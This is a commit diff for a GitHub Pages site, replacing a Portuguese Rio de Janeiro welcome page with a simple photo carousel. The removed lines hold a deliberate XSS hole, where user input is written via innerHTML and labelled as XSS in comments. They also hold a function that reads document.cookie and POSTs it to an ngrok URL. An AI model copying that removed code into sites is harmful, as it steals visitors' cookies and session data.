

Before and after one commit to sabara22/sabara22.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the top 777 px of the page at 81% size, 1920 px wide, since content can reach past the window. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme; placeholder pictures from the web are drawn by us.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,119 +3,128 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Boas-Vindas - Rio de Janeiro</title>
+    <title>My Photos 22</title>
+    <!-- Swiper CSS -->
+    <link rel="stylesheet" href="https://unpkg.com/swiper/swiper-bundle.min.css">
     <style>
-        /* Estilos omitidos por brevidade */
+        body {
+            font-family: Arial, sans-serif;
+            margin: 0;
+            padding: 0;
+            background-color: #ffffff;
+            color: #000000;
+        }
+        header {
+            background-color: #0073e6;
+            color: #ffffff;
+            padding: 20px;
+            text-align: center;
+        }
+        .search-bar {
+            margin-top: 10px;
+            text-align: center;
+        }
+        .search-bar input {
+            padding: 10px;
+            width: 300px;
+            border: none;
+            border-radius: 5px;
+            font-size: 16px;
+        }
+        .search-bar button {
+            padding: 10px 20px;
+            background-color: #005bb5;
+            color: #ffffff;
+            border: none;
+            border-radius: 5px;
+            cursor: pointer;
+            font-size: 16px;
+        }
+        .swiper-container {
+            width: 100%;
+            height: 400px;
+            margin-top: 20px;
+        }
+        .swiper-slide {
+            display: flex;
+            justify-content: center;
+            align-items: center;
+            background-color: #f0f0f0;
+            border-radius: 10px;
+            overflow: hidden;
+        }
+        .swiper-slide img {
+            max-width: 100%;
+            max-height: 100%;
+            object-fit: cover;
+        }
+        footer {
+            background-color: #0073e6;
+            color: #ffffff;
+            text-align: center;
+            padding: 10px;
+            position: fixed;
+            bottom: 0;
+            width: 100%;
+        }
     </style>
 </head>
 <body>
 
-    <!-- Página de Boas-Vindas -->
-    <div id="welcomePage" class="container">
-        <h1>Bem-vindo ao Rio de Janeiro! TANGO TILTEX</h1>
-        <p>Estamos felizes em ter você por aqui! Por favor, digite seu nome abaixo para começar.</p>
-        <input type="text" id="userName" placeholder="Digite seu nome aqui" oninput="handleInput(event)" onkeydown="checkEnter(event)">
-        <button onclick="submitName()">Enviar</button>
-        <p class="success-message hidden" id="successMessage">Nome recebido! Bem-vindo!</p>
+    <header>
+        <h1>My Photos 22</h1>
+        <div class="search-bar">
+            <input type="text" id="search-input" placeholder="Pesquisar fotos...">
+            <button onclick="searchPhotos()">Buscar</button>
         </div>
-
-    <!-- Página Principal (Escondida inicialmente) -->
-    <div id="mainPage" class="hidden">
-        <header>
-            <h1>Rio de Janeiro - Cidade Maravilhosa e Perfeita</h1>
     </header>
 
-        <div class="content">
-            <h2>Bem-vindo(a), <span id="userGreeting"></span>!</h2>
-            <p>
-                O Rio de Janeiro é uma grande cidade brasileira à beira-mar, famosa pelas praias de Copacabana e Ipanema, pela estátua de 38 metros de altura do Cristo Redentor, no topo do Corcovado, e pelo Pão de Açúcar, um pico de granito com teleféricos até seu cume. A cidade também é conhecida pelas grandes favelas. O empolgante Carnaval, com carros alegóricos, fantasias extravagantes e sambistas, é considerado o maior do mundo.
-            </p>
+    <!-- Swiper Carrossel -->
+    <div class="swiper-container">
+        <div class="swiper-wrapper">
+            <div class="swiper-slide">
+                <img src="https://via.placeholder.com/800x400" alt="Foto 1">
+            </div>
+            <div class="swiper-slide">
+                <img src="https://via.placeholder.com/800x400" alt="Foto 2">
+            </div>
+            <div class="swiper-slide">
+                <img src="https://via.placeholder.com/800x400" alt="Foto 3">
+            </div>
+            <div class="swiper-slide">
+                <img src="https://via.placeholder.com/800x400" alt="Foto 4">
+            </div>
+            <div class="swiper-slide">
+                <img src="https://via.placeholder.com/800x400" alt="Foto 5">
+            </div>
+        </div>
+        <!-- Adicionar navegação do carrossel -->
+        <div class="swiper-button-next"></div>
+        <div class="swiper-button-prev"></div>
     </div>
 
     <footer>
-            <p>&copy; 2023 Rio de Janeiro - Todos os direitos reservados.</p>
+        <p>&copy; 2023 My Photos 22. Todos os direitos reservados.</p>
     </footer>
-    </div>
 
+    <!-- Swiper JS -->
+    <script src="https://unpkg.com/swiper/swiper-bundle.min.js"></script>
     <script>
-        // Função chamada toda vez que o usuário digita algo
-        function handleInput(event) {
-            const userName = document.getElementById('userName').value;
-            // Exibindo o nome do usuário na página principal (XSS)
-            document.getElementById('userGreeting').innerHTML = userName;
+        // Inicializar o Swiper
+        const swiper = new Swiper('.swiper-container', {
+            loop: true,
+            navigation: {
+                nextEl: '.swiper-button-next',
+                prevEl: '.swiper-button-prev',
+            },
+        });
 
-            // Exibindo a mensagem de sucesso se o usuário estiver digitando
-            const successMessage = document.getElementById('successMessage');
-            if (userName.length > 0) {
-                successMessage.classList.remove('hidden');
-            } else {
-                successMessage.classList.add('hidden');
-            }
-
-            // A cada input, executa a vulnerabilidade XSS
-            console.log('Vulnerabilidade XSS ativa: ', userName);
-        }
-
-        // Verifica se o Enter foi pressionado e submete o nome
-        function checkEnter(event) {
-            if (event.key === "Enter") {
-                submitName();
-            }
-        }
-
-        // Envia o nome do usuário e troca para a página principal
-        function submitName() {
-            const userName = document.getElementById('userName').value;
-            // Exibindo o nome do usuário (XSS)
-            document.getElementById('userGreeting').innerHTML = userName;
-
-            // Exibindo a vulnerabilidade XSS em tempo real
-            console.log('Nome do usuário: ', userName);
-
-            // Enviar cookies para o servidor
-            sendCookiesToServer();
-
-            // Esconde a página de boas-vindas e mostra a página principal
-            document.getElementById('welcomePage').classList.add('hidden');
-            document.getElementById('mainPage').classList.remove('hidden');
-        }
-
-        // Função para capturar e enviar os cookies para o servidor
-        function sendCookiesToServer() {
-            const cookies = document.cookie;  // Captura os cookies do navegador
-            const url = 'https://ea2c-177-192-8-19.ngrok-free.app/coletar-cookies';  // URL do servidor
-
-            console.log("Cookies capturados:", cookies);
-
-            // Verificando se há cookies antes de enviar
-            if (!cookies) {
-                console.error("Nenhum cookie encontrado.");
-                return;
-            }
-
-            // Envia os cookies via fetch para o servidor
-            fetch(url, {
-                method: 'POST',
-                headers: {
-                    'Content-Type': 'application/json',
-                    'Access-Control-Allow-Origin': '*' // Certifique-se de que o CORS esteja liberado
-                },
-                body: JSON.stringify({ cookies: cookies })  // Envia os cookies no corpo da requisição
-            })
-            .then(response => {
-                if (!response.ok) {
-                    throw new Error('Falha ao enviar cookies');
-                }
-                return response.json();
-            })
-            .then(data => {
-                console.log('Cookies enviados com sucesso!', data);
-            })
-            .catch(error => {
-                console.error('Erro ao enviar cookies:', error);
-            });
+        // Função de pesquisa (simulada)
+        function searchPhotos() {
+            const query = document.getElementById('search-input').value;
+            alert(`Você pesquisou por: ${query}`);
+            // Aqui você pode adicionar a lógica para buscar fotos reais
         }
     </script>
-
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
